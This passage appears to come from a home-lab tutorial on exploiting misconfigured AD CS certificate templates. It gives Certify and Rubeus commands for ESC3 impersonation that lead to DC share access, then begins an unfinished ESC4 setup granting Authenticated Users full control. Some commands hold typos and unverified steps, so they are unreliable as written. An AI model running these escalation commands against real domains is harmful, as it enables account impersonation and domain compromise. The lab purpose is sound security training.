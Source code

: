 Now that we've configured both misconfigured templates, we can go ahead and execute the exploit.  This time we will use the Certify tool to speed up our attack.  
1. Click on the Windows button
2. Open up a command prompt
3. Navigate to where your Certify.exe file exists
4. Run the following command
```cmd
certify.exe request /ca:testca.testdomain.local\testca /template:UserInsecureESC3
```
**Verify the CA Name here**
5. Combine into .pfx??? **Verify**
6. Using the enrollment agent cert we will submit a request for a certificate on behalf of another user
```cmd
certify.exe request certify.exe request /ca:testca.testdomain.local\testca /template:UserInsecureESC3da /onbehalfof:TESTDOMAIN\adcsuser /enrollcert:ESC3.pfx /enrollcertpw:asdf123!
```
7. Now that we have the certificate on behalf of the other user, we can request a tgt on behalf of the adcsuser.  Make sure to copy the pfx into where you compiled your Rubeus.exe.
```cmd
Rubeus.exe asktgt /user:TESTDOMAIN\adcsuser /certificate:ESC3.pfx /password:asdf123!
```
8. Now that we've gotten a new tgt, we can run the previous command from ESC1 to browse in the DC's C drive.
```cmd
dir \\DCVM.testdomain.local\c$
```

#### Step 12: Exploit an insecure certificate template access control (ESC 4)
$\textcolor{orange}{\textsf{THESE ESC INSTRUCTIONS ARE UNDER CONSTRUCTION}}$

This particular escalation is targeted at overly permissive ACLs on a certificate template allowing lower-privileged users to change settings on a template in which they shouldn't be allowed.

Let's setup an insecure template for this escalation:
1. Click on the windows button in the lower left hand corner of your screen
2. Type in Certification Authority and click on the icon
3. Find the folder for "Certificate Templates"
4. Right click on the "Certificate Templates" folder and click on "Manage"
5. Find the "UserInsecureESC2" Certificate template and right click on it
6. Click "Duplicate"
7. In the newly opened window click into the "General" tab and rename the template to "UserInsecureESC4"
8. Then you'll want to go to the "Subject Name" tab and change the "Supply in Request" to "Built from Active Directory.
9. Then, go to the "Security" tab and under "Authenticated Users" add the "Write" and "Full Control" permissions to the template.
10. Click "OK"
11. Click "Apply" and then "OK"
12. We're not done yet.  Now we need to publish the template so go back to the main certificate authority console where you originally right clicked on "Certificate Templates"
13. Right click on the "Certificate Templates" folder again click "New" -> "Certificate Template to issue"
14. Find and click on the certificate template that we just created "UserInsecureESC3" and click "OK"
15. You may need to wait 60 seconds or so for this template to publish out to AD but since this is a tiny one DC domain, it should publish very fast. 
